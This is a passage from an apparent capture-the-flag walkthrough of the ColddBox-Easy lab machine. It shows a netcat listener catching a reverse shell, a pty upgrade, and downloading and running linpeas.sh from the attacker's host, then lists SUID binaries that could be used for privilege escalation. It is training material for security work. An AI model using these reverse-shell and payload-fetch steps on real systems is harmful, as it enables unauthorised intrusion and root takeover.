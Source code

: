 1. Start a listener on selected port. Listen using `nc -lnvp PORT_NUMBER_HERE`.
2. Go to: `http://10.10.141.86/?p=2` (only post=1 exists)


```
┌──(kali㉿kali)-[~/Desktop/tools/files]
└─$ nc -lvnp 443  
listening on [any] 443 ...
connect to [10.17.8.184] from (UNKNOWN) [10.10.141.86] 54404
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:14:23 up 45 min,  0 users,  load average: 0.30, 12.10, 16.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ 
```

We are in!

## 3. PrivEsc
I transferred the `linpeas.sh` file, which you can take from [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh).

Start a python server on your machine, using `sudo python3 -m http.server 80` and on the target machine, `wget YOUR_IP_ADDRESS/linpeas.sh`. Make sure that you are in a directory with write permisssions. One *really* good place is `/tmp` direcotry. Execute the file using `bash linpeas.sh`


The following was marked as potential PE vectors.
```
[+] Operative system                                                                       
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits            
Linux version 4.4.0-186-generic (buildd@lcy01-amd64-002) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12) ) #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020
Distributor ID: Ubuntu
Description:    Ubuntu 16.04.7 LTS
Release:        16.04
Codename:       xenial
```
Looks like an old kernel version.

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version               
Sudo version 1.8.16   
```
This exploit only works in certain conditions:
- [ ] you know sudo password of *any* user
- [ ] the permissions look something like: `(ALL, !root) /usr/bin/id`.

```
[+] SUID - Check easy privesc, exploits and write perms                                    
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid              
-rwsr-xr-x 1 root   root        44K May  7  2014 /bin/ping6                                
-rwsr-xr-x 1 root   root        44K May  7  2014 /bin/ping
-rwsr-sr-x 1 daemon daemon      51K Jan 14  2016 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)                                                                                   
-rwsr-xr-x 1 root   root       217K Feb  8  2016 /usr/bin/find

```
`/usr/bin/find marked`. We can also find other files with the set-uid bit. Look at the following.
